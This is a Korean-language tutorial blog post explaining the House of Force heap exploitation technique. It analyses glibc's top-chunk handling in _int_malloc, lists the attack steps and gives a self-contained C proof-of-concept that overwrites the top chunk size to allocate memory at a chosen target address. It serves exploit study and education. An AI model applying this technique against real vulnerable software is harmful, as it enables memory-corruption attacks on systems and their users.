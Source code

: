 ```yaml
---
title: "House of Force"
date: 2022-06-18 +0900
img_path: /assets/img/posts/house_of_force
categories: [PWNABLE]
tags: [heap, '2022']
---
```


# House of Force

House of Force attack은 top chunk를 이용한 공격이다.

정확히는 Top chunk의 size를 조작하여 임의의 주소에 힙 청크를 할당시킬 수 있는 공격이다.

# Top Chunk 처리 코드 분석

다음은 `malloc.c` 의 소스코드에서 Top Chunk를 처리하는 `_int_malloc()`의 일부분이다.

```c
victim = av->top;  // top chunk의 주소를 가져옴.
size = chunksize (victim);  // top chunk의 size를 구함.

if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
  {
    remainder_size = size - nb;
    remainder = chunk_at_offset (victim, nb);
    av->top = remainder;
    set_head (victim, nb | PREV_INUSE |
              (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head (remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk (av, victim, nb);
    void *p = chunk2mem (victim);
    alloc_perturb (p, bytes);
    return p;
  }
```

1. Top Chunk의 주소와 크기를 저장한다(`victim = av→top`, `size = chunksize(victim)`).
2. Top Chunk의 크기가  `nb + MINSIZE` (요청받은 Chunk의 크기 + Chunk의 최소 크기)보다 크거나 같은지 검사한다.
3. Top Chunk의 크기`size`에서 `nb`를 빼준 값을 `remainder_size`에 저장한다.
4. `**chunk_at_offset` 매크로를 통해 반환된 값을 `remainder` 에 저장한다. `chunk_at_offset` 매크로는 아래와같이 정의되어 있다.**
   
    ```c
    #define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
    ```
    
    따라서 Top Chunk의 주소 값 `victim`에 `nb`를 더해준 값을 반환한다.
    
5. `remainder`는 다시 Top Chunk(`av→top`)에 저장한다.
6. `set_head`를 통해 Chunk의 header 부분을 setting 해주고 힙 영역에 메모리를 할당한다.

# House of Force Attack Flow

1. `malloc()`으로 힙 영역에 메모리를 할당한다.
   
    ![hof1](hof1.png){:width="600px"}
    
2. Top Chunk의 size 값을 `0xffffffff`(32bit)나  `0xffffffffffffffff`(64bit) 값으로 덮어쓴다.
    - 위에서 설명했던 것처럼`_int_malloc`에서 Top Chunk의 크기와 할당을 요청받은 크기를 비교하는 조건문을 참으로 만들어 힙 영역에 메모리를 할당할 수 있게 한다.
    
    ![hof2](hof2.png){:width="600px"}
    
3. 원하는 주소를 할당 받기 위해 아래의 값을 `malloc()` 인자로 전달한다.
   
    [`할당 받고자하는 메모리 주소 - Chunk header size - Top Chunk addr - Chunk header size`]
    
    ex) `0x601048 - 0x10 - 0x6024A0 - 0x10 = 0xffffffffffffeb88`
    
    - 계산된 값을 `malloc()`의 인자로 넣어주게 되면 인자로 넣어준 크기만큼 메모리를 할당하게 되는데 위에서 설명한 `chunk_at_offset` 매크로를 통해 Top Chunk의 주소가   `top chunk 주소 + 할당 요청 크기`가 된다.
    
    ![hof3](hof3.png){:width="600px"}
    
4. 그리고 다시 한 번 `malloc()`을 호출하면 원하는 주소를 반환한다.
    - 다시 한 번 `malloc()`을 해줌으로써 Target Address에 메모리가 할당된다.
    
    ![hof4](hof4.png){:width="600px"}
    

# Example

아래의 코드는 다음과 같은 동작을 하며 Target Address는 `0x601048` 이다.

1. 128byte 크기의 메모리를 할당한다.
2. Top Chunk의 Size를 `0xffffffffffffffff`으로 Overwrite 한다.
3. House of Force 공격을 하기 위해 메모리 할당해줄 크기를 구한다.
    1. `(uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18`에서 `0x18`인 이유는 Target Address가 `0x601048`로 되어있기 때문에 보다 정확하게 할당해주기 위해서 Target Address의 메타데이터 크기인 `0x10`에서 `0x8`을 더 빼주었다.
    2. 힙은 16byte 단위로 메모리를 할당해주기 때문에 `0x10`만 빼주어도 `0x18`을 빼준 것과 동일한 주소에 할당을 해주지만 정확한 위치에 할당해주기 위함이다.
4. `malloc()`으로 메모리 할당을 한 번 더 해주면 Target Address의 값을 변조할 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

char* target = "Target!!!";
char* exploit = "EXPL0I7!!!!";

int main(int argc, char* argv[]){
    uint64_t* buf1, *buf2, *buf3;
    uint64_t* top_chunk_size;
    uint64_t* top_chunk;

    printf("==Before House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);
    printf("Target Addr: %p\n\n", &target);

    printf("1. malloc(128)\n");
    buf1 = malloc(128); // Memory Alloc

    top_chunk = &buf1[16];       // Top Chunk Addr
    top_chunk_size = &buf1[17];  // Top Chunk Size Addr

    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Top Chunk Size Overwrite */
    printf("2. OverWrite Top Chunk Size\n");
    *top_chunk_size = 0xffffffffffffffff;
    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Calculate Address to House of Force */
    uint64_t calc = (uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18;
    printf("3. House of Force!!\n");

    printf("Calc : %lx\n", calc);
    printf("malloc(0x%lx)\n", calc);

    /* House of Force */
    buf2 = malloc(calc);
    printf("[+] buf2 addr: %p\n", buf2);

    /* One More Allocation */
    buf3 = malloc(128);
    printf("[+] buf3 addr: %p\n\n", buf3);

    buf3[1] = (uint64_t)exploit;

    printf("==After House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);

    return 0;
}
```

**Reference**
> [Lazenca_House of Force (Korean)](https://www.lazenca.net/pages/viewpage.action?pageId=1148018)
>
> [Dreamhack - House of Force](https://learn.dreamhack.io/16#71)
